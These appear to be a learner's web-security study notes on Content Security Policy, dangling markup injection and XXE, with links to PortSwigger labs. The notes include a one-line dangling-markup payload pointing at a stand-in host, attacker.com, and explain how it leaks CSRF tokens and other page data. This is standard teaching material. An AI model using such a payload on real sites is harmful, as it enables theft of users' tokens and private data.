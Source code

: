 # COntent Security Policy
## what is CSP
- CSP is a browser security mechanism that aims to mitigate XSS and some other attacks. 
- it works by restricting the resources(i.e scripts and images)
- TO enable `CSP` a response needs to include HTTP response header called `Contet-Security-Policy` with value containing the policy. the policy consists of one or more directive, separated by semicolons.

## mitigating XSS attack using CSP
`CSRF+ XSS` example:
[lab scenario](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack)


# Dangling Markup Injection
## what is Dangling Markup Injection
- it is a technique for capturing data cross-domain in situation where a full XSS attack isn't possible.
- if normal Xss isn't possible due to input filters or CSP or other Obstacles here it might still be possible to deliver a `dangling markup injection` attack using a payload like the following
```js
"><img src='//attacker.com?
```
This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.
- The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data.
`Example labs `
[lab1](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)
[lab2](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack)

# [prevention](https://portswigger.net/web-security/cross-site-scripting/preventing)
## what is XML external Entity Injection.
- it is also known as `XXE` is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
- it allows attacker to view files on the application server and to interact with any back-end system that the application it self have access.
- some times attacker leverage `XXE ` to `SSRF` attacks
